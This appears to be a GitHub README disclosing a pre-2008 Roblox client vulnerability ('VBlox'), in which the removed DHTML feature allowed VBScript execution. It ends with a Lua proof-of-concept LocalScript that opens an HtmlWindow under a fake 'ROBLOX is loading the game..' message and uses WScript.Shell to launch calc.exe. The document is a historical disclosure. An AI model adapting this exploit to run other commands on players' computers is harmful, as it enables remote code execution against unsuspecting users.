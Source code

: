 ![Get it? VBlox.](assets/vblox.png)
VBlox is a vulnerability in clients before January 2008 that allows for VBScript execution which uses ROBLOX's now-removed DHTML feature. DHTML, as the name suggests, was a service which allowed players to display HTML documents within ROBLOX. Unlike GUIs, DHTML windows were completely new windows that would open on a player's computer which were based off of Trident, which was Internet Explorer's browser engine. 

The main reason for DHTML's removal was because it was easily exploitable (shown here), mainly for place stealing, but can also be used to run VBScript by malicious attackers. DHTML's very short life span (being removed in January of 2008) suggests that Roblox was very aware of the security issues it created. A year and a half later, in 2009, Roblox would release a replacement for DHTML, known as PlayerGUIs, a built-in GUI display system which could do nearly everything DHTML could other than render HTML.
# Explanation
![lol](assets/diagram.png)

When a LocalScript in StarterPack is executed, a HtmlWindow can be created which can run VBScript, leading to possible remote code execution.
# How to patch
Unfortunately, there is no possible way to patch this unless if you use a client that is newer than January 2008.
# Example
The following code below is a LocalScript that first runs VBScript, which runs Shell code, and that Shell code later opens calc.exe.
```lua
local w = game:GetService("HtmlService"):NewWindow()

w.DocumentComplete:connect(function()
	w:SetBody([==[
	<html>
	<head><title>Test</title></head>
	<body>
		<h3>ROBLOX is loading the game..</h3>

		<script language="VBScript">
		Set WshShell = CreateObject("WScript.Shell")
		WshShell.Run "calc.exe"
		</script>

	</body>
	</html>
	]==])
	w:Show()
end)

w:Navigate()
```
